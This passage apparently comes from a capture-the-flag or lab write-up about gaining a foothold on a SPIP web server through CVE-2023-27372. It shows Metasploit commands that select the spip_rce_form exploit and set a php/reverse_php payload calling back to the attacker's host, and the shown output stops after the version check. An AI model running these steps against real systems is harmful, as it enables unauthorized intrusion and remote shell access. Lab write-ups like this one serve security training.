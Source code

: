 Searching on google we find this is vulnerable to Unauthenticated Remote Code Execution [CVE-2023-27372](https://nvd.nist.gov/vuln/detail/CVE-2023-27372)

## **Foothold**

I launched `msfconsole` an searched for `spip`.

```terminal
[msf](Jobs:0 Agents:0) >> search spip                                                                                                                                                                              
                                                                                                                                                                                                                   
Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description                                                                                                                        
   -  ----                                   ---------------  ----       -----  -----------                                                                                                                        
   0  exploit/unix/webapp/spip_connect_exec  2012-07-04       excellent  Yes    SPIP connect Parameter PHP Injection                                                                                               
   1  exploit/unix/webapp/spip_rce_form      2023-02-27       excellent  Yes    SPIP form PHP Injection                                                                                                            


Interact with a module by name or index. For example info 1, use 1 or use exploit/unix/webapp/spip_rce_form                                                                                                        

[msf](Jobs:0 Agents:0) >>
```

We found the exploit, Let's use it and set the necessary options.

```terminal
[msf](Jobs:0 Agents:0) exploit(unix/webapp/spip_rce_form) >> set rhosts 10.10.16.40                      
rhosts => 10.10.16.40                               
[msf](Jobs:0 Agents:0) exploit(unix/webapp/spip_rce_form) >> set lhost tun0                              
lhost => tun0 
[msf](Jobs:0 Agents:0) exploit(unix/webapp/spip_rce_form) >> set targeturi /spip                         
targeturi => /spip                                  
[msf](Jobs:0 Agents:0) exploit(unix/webapp/spip_rce_form) >> set payload php/reverse_php                                                                                                                           
payload => php/reverse_php  
[msf](Jobs:0 Agents:0) exploit(unix/webapp/spip_rce_form) >> run                                         
                                                                                                         
[*] Started reverse TCP handler on 10.9.4.213:9001                                                                                                                                                                 
[*] Running automatic check ("set AutoCheck false" to disable)                                                                                                                                                     
[*] SPIP Version detected: 4.2.0                                                                         
```